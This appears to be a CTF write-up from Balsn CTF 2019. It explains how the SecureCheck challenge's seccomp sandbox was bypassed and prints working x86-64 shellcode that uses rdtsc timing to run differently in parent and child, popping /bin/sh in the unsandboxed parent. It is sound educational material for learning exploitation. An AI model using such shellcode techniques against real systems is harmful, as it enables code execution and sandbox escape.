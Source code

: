 # Balsn CTF 2019

Balsn CTF was one of the most difficult games I played throughout this year. Due to my lack of pwning skills, I could only solve two challenges: KrazyNote and SecureCheck. I spent about 30 hours on KrazyNote, a linux kernel exploitation challenge. Since it is my first time solving a kernel pwnable in a decent CTF and I learned a lot from that challenge, I will publish a write-up in detail. 

## SecureCheck
It is a very simple challenge. The pseudocode of the challenge is this:

```c
int main() {
	int wstatus;
	void *sc = mmap(RWX);
	read(0, sc, 0x1000);

	pid_t pid = fork();
	if (pid) {
		wait(&wstatus);
		if (wait == 0) { clear_all_registers(); sc();}
	}

	else {
		install_seccomp();
		clear_all_registers(); sc();
	}

}
```

I analyzed the seccomp rules with [this](https://github.com/david942j/seccomp-tools), and it showed that I am allowed to execute only two system calls: exit and exit_group.
The cool thing is that if the exit status for the child is 0, the parent executes the shellcode as well, which is not sandboxed. We must find a way to distinguish parent and child.

There can be many ways. My first idea was to search for special data in the stack. Since the child has init_seccomp() called, seccomp filter is in its stack, unlike is parent. By searching the stack, the shellcode can check if it is being executed in the child process or not. Sadly, this is hard because the RSP pointer is zero'ed out. There are dirty tricks such as accessing the libc via relative addresses to RIP (mmap'ed pages are contiguos) and fetching a stack address in `environ`, but this was a libc dependent solution so I quickly gave up.

My solution was that, if we have a random number generator of any sort, we can distinguish the parent and child. Assuming we have a 0/1 single bit randomizer and there is a conditional jump depending on this random value, we can execute different code in the parent and child with about a chance of 1/4, which is realistic enough. My random source was the TSC register, the super-sensitive timestamp register. The `rdtsc` instruction saves the timestamp in EAX:EDX, so I can use the lowest bit of EAX as the random source. My shellcode code is the following:

```asm
rdtsc
mov rdx, 0xfffff
.randomTimeWaste:
	dec rdx
	cmp rdx, 0
	jne .randomTimeWaste

and rax, 1
cmp rax, 1
je .parent
.child:
	mov rax, 60
	mov rdi, 0
	syscall
.parent:
	mov rax, 59
	lea rdi, [rip+binshStr]
	mov rsi, 0
	mov rdx, 0
	syscall

binshStr: .string "/bin/sh"
```

At a chance of 1/4, the parent pops a shell which gives us the flag.

## KrazyNote

I have lots to talk about this challenge, so I wrote a blogpost about it.
[Check it out](https://pr0cf5.github.io/ctf/2019/10/10/balsn-ctf-krazynote.html) if you're curious.
